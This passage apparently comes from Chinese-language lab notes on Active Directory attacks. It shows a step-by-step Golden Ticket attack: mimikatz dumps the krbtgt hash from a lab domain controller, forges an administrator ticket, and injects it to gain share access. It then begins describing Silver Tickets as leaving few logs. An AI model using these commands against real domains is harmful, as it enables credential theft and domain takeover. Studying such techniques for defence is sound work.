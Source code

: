 | 操作系统     | 角色   | 域名     | 用户名 |
| ------------ | ------ | -------- | ------ |
| Wins2012R2   | DC     | main.com | 12451  |
| windows 2008 | Client | main.com | test   |

实现：

1.  先获得hash 和SID

   ```powershell
   lsadump::lsa /patch      #专用于在域控制器上导出用户密码或hash
   ```

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512142502.png)

   

   我们得到krbtgt用户的Hash为：73265a93b877df146cf06d08ffa673e8，域sid为S-1-5-21-2214894582-1205818508-3793940241
   
2. 切换到普通域用户的WEB主机或PC主机，用mimikatz生成名为ticket.kirbi的TGT凭证，用户名为域管理员用户（administrator）：

   ```powershell
   # kerberos::golden /user:需要伪造的域管理员用户名 /domain:demo.com /sid:域sid /krbtgt: krbtgt用户的Hash /ticket:ticket.kirbi
   kerberos::golden /user:administrator /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /krbtgt:73265a93b877df146cf06d08ffa673e8 /ticket:ticket.kirbi
   
   ```

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512143909.png)

   在当前目录下会生成一个`ticket.kirbi`

   ```powershell
   kerberos::purge   //先清空所有票据
   kerberos::ptt ticket.kirbi    //再将生成的票据注入域用户主机
   ```

   然后查看一下当前的票据内容

   ```powwershell
   kerberos::tgt
   ```

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512144450.png)

   对比一下之前的操作，当我们想看 DC下的共享目录的时候：拒绝访问

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512160102.png)

   更改凭证之后

   ![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220512160902.png)

## 6. Silver Ticket/白银票据

**Silver Ticket**(白银票据) 不同于 Golden Ticket, Silver Ticket的利用过程是**伪造TGS**,通过已知的授权服务密码生成一张可以访问该服务的TGT。因为在票据生成过程中不需要使用KDC,所以可以绕过域控制器，很少留下日志。而Golden Ticket在利用过程中需要KDC颁发TGT,且在生成伪造的TGT 的20分钟内,TGS不会对该TGT 的真伪进行校验。
